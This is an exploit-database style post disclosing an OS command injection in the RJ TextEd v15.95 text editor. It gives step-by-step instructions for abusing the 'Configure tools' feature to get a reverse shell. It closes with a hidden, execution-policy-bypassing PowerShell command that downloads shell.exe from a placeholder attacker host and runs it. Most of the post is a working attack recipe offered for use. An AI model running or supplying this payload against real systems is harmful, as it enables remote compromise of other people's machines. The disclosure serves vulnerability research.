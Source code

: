 ```yaml
---
layout: post
title: RJ TextEd v15.95 - OS Command Injection
date: 2023-09-17
category: exploit
---
```


# Exploit Title: RJ TextEd v15.95 - OS Command Injection
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 17.09.2023
# Vendor Homepage: https://www.rj-texted.se
# Software Link: https://www.fosshub.com/RJ-TextEd.html?dwl=rj-install_x86-15.95.exe
# Tested Version: v15.95 (latest)
# Tested on: Windows 2019 Server 64bit

### Steps to Reproduce

1. Open RJ TextEd.
2. Click on **Tools** from the top menu.
3. Select **Configure tools**.
4. Click on **Add** to create a new tool.
5. Check the **Run as DOS Command and capture output** box.
6. In the **Menu text** box, type "shell".
7. In the **Command** box, enter your reverse shell command.
8. Click **OK**, then **Apply**, and **OK** again.
9. From the top menu, go to **Tools** and select **shell**.
10. The reverse shell should now be active, connecting back to your listener.

### Example of Reverse Shell Command

To set up a reverse shell command, you can use the following in the **Command** box:

```batch
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri http://attacker_ip:port -OutFile %TEMP%\shell.exe; Start-Process %TEMP%\shell.exe"
